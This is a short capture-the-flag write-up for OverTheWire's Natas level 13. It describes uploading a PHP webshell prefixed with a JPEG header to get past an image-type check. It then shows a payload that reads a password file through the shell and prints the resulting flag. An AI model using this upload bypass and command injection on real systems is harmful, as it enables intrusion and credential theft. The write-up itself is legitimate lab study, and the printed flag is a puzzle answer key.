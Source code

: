 # Natas Level 13 Solution

here we inject webshell, but here we add the header of jpeg file in the begin of the content, because the php code use the func `exif_imagetype`

![alt text](./images/level13.png)

then, we go to `upload/h0854v8rab.php` which is the url
```
http://natas13.natas.labs.overthewire.org/upload/h0854v8rab.php
```

and inject our payload, in this case: `?x=cd /etc/natas_webpass/; cat natas14`

**Flag:** ***`z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`*** 